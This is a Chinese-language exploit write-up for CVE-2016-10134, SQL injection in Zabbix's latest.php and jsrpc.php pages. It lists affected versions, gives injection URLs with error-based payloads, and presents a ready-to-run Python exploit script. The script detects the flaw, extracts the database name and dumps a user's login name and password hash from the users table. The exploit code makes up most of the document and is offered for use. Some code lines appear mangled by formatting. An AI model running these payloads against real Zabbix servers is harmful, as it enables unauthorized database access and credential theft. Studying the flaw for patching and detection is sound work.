





## 什么是zabbix


zabbix是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。


zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位/解决存在的各种问题。


zabbix由2部分构成，zabbix server与可选组件zabbix agent。


zabbix server可以通过SNMP，zabbix agent，ping，端口监视等方法提供对远程服务器/网络状态的监视，数据收集等功能，它可以运行在Linux，Solaris，HP-UX，AIX，Free BSD，Open BSD，OS X等平台上。


> _2016年8月12日，1n3通过邮件披露了Zabbix软件的jsrpc.php文件在处理profileIdx2参数时存在insert方式的SQL注入漏洞，与官方通告的latest.php文件在处理toggleids参数时存在insert方式的SQL注入漏洞属于同一类型的漏洞，只是攻击的位置不同。_


## 受影响版本


ZABBIX 2.0.5 2.0.13 2.2.x 2.4.2 2.4.5 2.4.7 2.4.8 2.5.0 3.0.0-3.0.3


## 不受影响的版本


_`ZABBIX 1.8.，2.2.14，3.0.4，3.2.0`_


## 漏洞复现


注入在两个页面中都存在，分别进行验证。

1. latest.php页面：

此页面需要使用已注册用户或者guest用户登陆才可以。





_使用guest用户登陆，查看cookie中的zbxsessionid_





此页面注入的payload为：


> _**`http://ip:port/latest.php?output.php=ajax&sid=&favobj=toggle&toggleopenstate=1&toggleids=updatexml(0,concat(0xa,database()),0)`**_


_需要将zbxsessionid中的后16位拿出来放到sid后面_





可看到已经注入成功，将数据库名显示了出来。

1. jsrpc.php页面:

此页面无需登陆即可注入


zabbix 3.0.4版本已经修复了latest.php页面的注入，但不清楚是否已修复jsrpc.php页面的注入，遇到3.0.4版本也可尝试进行注入。


此页面注入的poc为：


```php
http://192.168.223.130:8080/jsrpc.php
?sid=0bcd4ade648214dc
&type=9
&method=screen.get
&timestamp=1471054088083
&mode=2
&screenid=
&groupid=
&hostid=0
&pageFile=history.php
&profileIdx=web.item.graph
&profileIdx2=1'
&updateProfile=true
&screenitemid=
&period=3600
&stime=20170813040734
&resourcetype=17
&itemids[23297]=23297
&action=showlatest
&filter=
&filtertask=
&markcolor=1
```


注入点在profileIdx2参数


测试如下：





同样可构造注入语句显示数据库名：





## 利用EXP


```python
# coding= utf-8
import sys,re
import requests

def sqlcheck():
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=2’3297" \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"

    requesturl = zabbixurl+poc

    try:
        rsp = requests.get(requesturl,timeout=5)
        r = rsp.text
        keyWord = re.findall("INSERT\sINTO\sprofiles",r)
        if keyWord:
            print("此地址存在注入")
        else:
            print("此地址不存在注入，无法利用")
    except Exception as e:
        print(e)


def getdatabase():
    payload = "(select database())"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2="+payload+ \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl + poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Incorrect.?(\S+)\sfor',r,re.S)
        print("数据库名称为：" + keyword.group(1))
    except Exception as e:
        print(e)

def getUserPass():
    payload = "(select 1 from(select count()," \
              "concat((select (select (select concat(0x7e,(select concat(alias,0x3a,passwd) " \
              "from  users limit 0,1),0x7e))) from informationschema.tables limit 0,1),floor(rand(0)2))x from " \
              "informationschema.tables group by x)a)"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=" + payload + \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl+poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Duplicate.?(\S+)\sfor',r,re.S)
        print("用户名和密码为：" + keyword.group(1))
    except Exception as e:
        print(e)


if name == 'main':
    print(''60)
    print('\t CVE-2016-10134')
    print('\t Zabbix SQL injection EXP')
    print('\t by https://darkless.cn')
    print('\t python>=3.5 and usage "python zabbix-sql-inject-exp.py"')
    print(''  60)
    zabbixurl = input("请输入zabbix地址，例如：http://192.168.0.1:8080 >>>>")
    if not zabbixurl:
        sys.exit()
    sqlcheck()
    getdatabase()
    getUserPass()
```


## 参考文章

- https://www.waitalone.cn/zabbix-sql-1.html
- http://blog.nsfocus.net/sql-zabbix-analysis-protection-scheme-injection-vulnerability/
- https://blog.csdn.net/csacs/article/details/86656618
